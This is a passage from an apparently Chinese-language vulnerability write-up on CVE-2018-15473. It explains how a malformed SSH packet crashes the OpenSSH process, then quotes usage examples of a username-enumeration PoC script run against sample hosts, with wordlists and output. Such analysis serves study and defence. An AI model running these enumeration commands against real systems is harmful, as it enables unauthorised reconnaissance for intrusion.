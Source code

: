 下面是解析恶意消息的过程：

![image](../img/ceea264f45023f032083451410d02705.png)

结果就是，代码解析了一个1907字节的字符串（十六进制为0×00000773），这比整个消息的长度还要长，这会导致ssh_packet_get_string调用fatal函数，并中断OpenSSH进程。

### poc补充

> 不知道为什么上面那个poc运行就报错了。这里找了一个能用的poc

> ## Examples
> 
> A single username
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -u epi 192.168.1.2
> [+] epi found! 
> ```
> 
> Use a wordlist with 10 threads (the default is 4)
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -t 10 -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt 192.168.1.2
> [+] avahi found!
> [+] avahi-autoipd found!
> [+] backup found!
> [+] daemon found!
> [+] bin found!
> ------8<------ 
> ```
> 
> IPv6 Address on port 2222 and INCREASED VERBOSITY!
> 
> ```
> (cve-2018-15473)─> ./ssh-username-enum.py -6 -p 2222 -v -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt '::1'
> [-] 4Dgifts not found
> [-] demo not found
> [-] checkfs not found
> [-] anon not found